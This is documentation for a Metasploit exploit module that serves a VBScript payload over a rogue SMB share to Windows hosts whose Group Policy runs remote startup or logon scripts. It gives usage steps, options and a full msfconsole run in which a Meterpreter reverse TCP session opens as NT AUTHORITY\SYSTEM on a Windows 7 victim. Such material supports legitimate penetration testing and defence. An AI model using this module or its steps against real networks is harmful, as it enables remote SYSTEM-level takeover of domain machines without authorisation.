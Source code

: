 ## Vulnerable Application

This is a general-purpose module for exploiting systems with Windows Group Policy configured to load VBS startup/logon scripts from remote locations.
This module runs a SMB shared resource that will provide a payload through a VBS file. Startup scripts will be executed with SYSTEM privileges,
while logon scripts will be executed with the user privileges. The attacker still needs to redirect the target traffic to the fake SMB
share to exploit it successfully.

Please note in some cases, it will take 5 to 10 minutes to receive a session.

More information available at [Gotham Digital Science Security](https://blog.gdssecurity.com/labs/2015/1/26/badsamba-exploiting-windows-startup-scripts-using-a-maliciou.html)

## Verification Steps

  1. Start msfconsole
  2. Do: ```use modules/exploits/windows/smb/group_policy_startup```
  3. Do: ```exploit```

## Options

  **FILE_NAME**

  VBS File name to share (Default: random .vbs)

  **FOLDER_NAME**

  Folder name to share (Default: none)

  **SHARE**

  Share name (Default: Random)

## Scenarios

### Domain Group Policy

In this scenario, the following computers are present:

1. Windows 7 (x64, Build 7601, SP1): Victim
2. Server 2016 (x64, Version 1607, OS Build 14393.970): Domain Controller

The module sets up the SMB share and VBScript file. Out of band (outside the scope of this module or docs) a Group Policy is simply applied to the `OU` computer container.
Next, the Win 7 box grabs the payload, in this case the meterpreter reverse_tcp stager on boot, with `SYSTEM` privs because its executed as a start up script.
Theoretically, any computer in that `OU` would also execute the script on started up.

  ```
  msf > use modules/exploits/windows/smb/group_policy_startup
  msf exploit(windows/smb/group_policy_startup) > set FILE_NAME startup.vbs
    FILE_NAME => startup.vbs
  msf exploit(windows/smb/group_policy_startup) > set SHARE scripts
    SHARE => scripts
  msf exploit(windows/smb/group_policy_startup) > exploit
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] File available on \\192.168.1.3\scripts\startup.vbs...
    [*] Started service listener on 192.168.1.3:445
    [*] Server started.
    [*] Sending stage (180291 bytes) to 192.168.1.4
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.4:49178) at 2019-12-04 13:12:05 -0700
  msf exploit(windows/smb/group_policy_startup) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : MSF-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : MSF
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
